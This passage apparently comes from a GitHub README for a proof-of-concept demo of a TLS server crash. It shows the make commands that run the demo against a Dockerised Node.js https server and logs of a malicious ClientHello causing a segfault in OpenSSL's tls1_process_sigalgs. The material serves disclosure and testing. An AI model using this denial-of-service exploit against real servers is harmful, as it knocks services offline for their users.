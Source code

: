 ### Node.js

Node.js `https.createServer()` is vulnerable.

* `make demo-nodejs`: Full run (port 4433)
* `make -C demo build-nodejs`: Build target Docker image
* `make -C demo start-nodejs`: Start target at port 4433
* `make -C demo stop-nodejs`: Stop target

Result: Full server crash.

**Logs**

```
server started
sending initial ClientHello
connected
sending malicious ClientHello

Thread 1 "node" received signal SIGSEGV, Segmentation fault.
0x000000000160714e in tls1_process_sigalgs ()
#0  0x000000000160714e in tls1_process_sigalgs ()
#1  0x00000000016074b3 in tls1_set_server_sigalgs ()
#2  0x00000000016007dd in tls_post_process_client_hello ()
#3  0x00000000015ef692 in state_machine.part ()
#4  0x00000000015c1a6d in ssl3_read_bytes ()
#5  0x00000000015ca2c7 in ssl3_read ()
#6  0x00000000015d6491 in SSL_read ()
#7  0x0000000000c35332 in node::crypto::TLSWrap::ClearOut() ()
#8  0x0000000000c35f10 in node::crypto::TLSWrap::OnStreamRead(long, uv_buf_t const&) ()
#9  0x0000000000b6cad8 in node::LibuvStreamWrap::OnUvRead(long, uv_buf_t const*) ()
#10 0x00000000014842d7 in uv__read (stream=stream@entry=0x5df10f0) at ../deps/uv/src/unix/stream.c:1239
#11 0x0000000001484c90 in uv__stream_io (loop=<optimized out>, w=0x5df1178, events=1) at ../deps/uv/src/unix/stream.c:1306
#12 0x000000000148b775 in uv.io_poll () at ../deps/uv/src/unix/linux-core.c:462
#13 0x0000000001479318 in uv_run (loop=0x45a1020 <default_loop_struct>, mode=UV_RUN_DEFAULT) at ../deps/uv/src/unix/core.c:385
#14 0x00000000009d2025 in node::SpinEventLoop(node::Environment*) ()
#15 0x0000000000ac8b90 in node::NodeMainInstance::Run(node::EnvSerializeInfo const*) ()
#16 0x0000000000a4f73a in node::Start(int, char**) ()
#17 0x00007efe747dcbf7 in __libc_start_main (main=0x9cbbd0 <main>, argc=2, argv=0x7fff42035238, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fff42035228) at ../csu/libc-start.c:310
#18 0x00000000009ce26c in _start ()
malicious handshake failed, exploit might have worked: EOF
```

## Copyright

This repository bundles the `encoding/tls` package of the Go programming language.

```
// Copyright 2009 The Go Authors. All rights reserved.
// Use of this source code is governed by a BSD-style
// license that can be found in the LICENSE file.
```
